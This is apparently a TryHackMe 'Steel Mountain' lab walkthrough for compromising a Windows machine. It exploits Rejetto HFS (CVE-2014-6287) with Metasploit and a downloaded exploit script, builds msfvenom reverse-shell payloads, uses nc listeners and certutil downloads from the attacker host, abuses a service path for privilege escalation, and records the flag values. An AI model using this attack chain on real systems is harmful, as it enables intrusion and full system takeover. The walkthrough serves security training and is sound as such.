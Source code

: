 # THM - Steel Mountain

<br>

## Task 1

### Task 1.1

http://10.10.99.166/

![Bill Harper](./BillHarper.png)

> Bill Harper

<br>

## Task 2

### Task 2.1

```shell
mkdir scans
nmap -A -sC 10.10.99.166 -oN scans/nmap_1.txt
```

> 8080

### Task 2.2

http://10.10.99.166:8080/

🧰 https://en.wikipedia.org/wiki/HTTP_File_Server#:~:text=Rejetto%20HTTP%20File%20Server

> Rejetto HTTP File Server

### Task 2.3

```shell
searchsploit HttpFileServer 2.3 -w
```

🧰 https://www.exploit-db.com/exploits/49125

> 2014-6287

### Task 2.4

```shell
msfconsole
	search 2014-6287
	use exploit/windows/http/rejetto_hfs_exec
		show options
		set RHOSTS 10.10.100.38
		set RPORT 8080
		set LHOST 10.14.27.197
		exploit
		
			pwd
			cat C:\\Users\\bill\\Desktop\\user.txt
```

> b04763b6fcf51fcd7c13abc7db4fd365

<br>

## Task 3

### Task 3.1

🧰 https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

(Terminal 1/msfconsole:)
```shell
			cd C:\\Users\\bill\\Desktop
			upload ../../Tools/PowerSploit/Privesc/PowerUp.ps1
			
			load powershell
			powershell_shell
			
				. .\PowerUp.ps1
				Invoke-AllChecks
```

### Task 3.2

> AdvancedSystemCareService9

### Task 3.3

(Terminal 2:)
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.14.27.197 LPORT=9876 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```

(Terminal 1/msfconsole:)
```shell
				^C
			
			background
		back
	use exploit/multi/handler
		show options
		set LHOST 10.14.27.197
		set LPORT 9876
		run -j
		
		sessions
		sessions 1
		
			shell
				sc stop AdvancedSystemCareService9
				exit
			
			upload ASCService.exe "C:\\Program Files (x86)\\IObit\\Advanced SystemCare\\ASCService.exe"
			
			shell
				sc start AdvancedSystemCareService9
				exit
				
			background
		
		sessions
		sessions 2
			whoami
```

### Task 3.4

(Terminal 1/msfconsole:)
```shell
			dir "\root.txt" /s
			type C:\Users\Administrator\Desktop\root.txt
			
			exit
		exit -y
```

> 9af5f314f57607c00fd09803a587db80

<br>

## Task 4

### Task 4.1

🧰 https://www.exploit-db.com/exploits/39161

🧰 https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe

🧰 https://gist.githubusercontent.com/Arun89-crypto/eef9fb8370d12e52cf0efa5eb29a7227/raw/3845febafa02253e344503cfcb255b56b83552c7/exploit.py

(Terminal 1:)
```shell
wget https://gist.githubusercontent.com/Arun89-crypto/eef9fb8370d12e52cf0efa5eb29a7227/raw/3845febafa02253e344503cfcb255b56b83552c7/exploit.py -O 39161-mod.py

nano 39161-mod.py
```

(edit:)
```python
# (...)
	ip_addr = "10.14.27.197" #local IP address
	local_port = "9999" # Local Port number
# (...)
```

(Terminal 1/nano:)
```shell
	^X
	y
	^Enter

cp ../../Tools/static-binaries/binaries/windows/x86/ncat.exe ./nc.exe

python3 -m http.server
```

(Terminal 2:)
```shell
nc -lvnp 9999
```

(Terminal 3:)
```shell
python3 39161-mod.py 10.10.100.38 8080

python3 39161-mod.py 10.10.100.38 8080
```

### Task 4.2

(Terminal 2/nc:)
```shell
	powershell -c "Get-Service"
```

> powershell -c "Get-Service"

### Task 4.3

(Terminal 3:)
```shell
cp ../../Tools/PEASS-ng/winPEASx86.exe ./winPEASx86.exe
```

(Terminal 2/nc:)
```shell
	certutil -urlcache -f http://10.14.27.197:8000/winPEASx86.exe winPEASx86.exe
	
	winPEASx86.exe
	
	sc stop AdvancedSystemCareService9
	
	certutil -urlcache -f http://10.14.27.197:8000/ASCService.exe "C:\\Program Files (x86)\\IObit\\Advanced SystemCare\\ASCService.exe"
```

(Terminal 3:)
```shell
nc -lvnp 9876
```

(Terminal 2/nc:)
```shell
	sc start AdvancedSystemCareService9
```

(Terminal 3/nc:)
```shell
	whoami
```

<br>

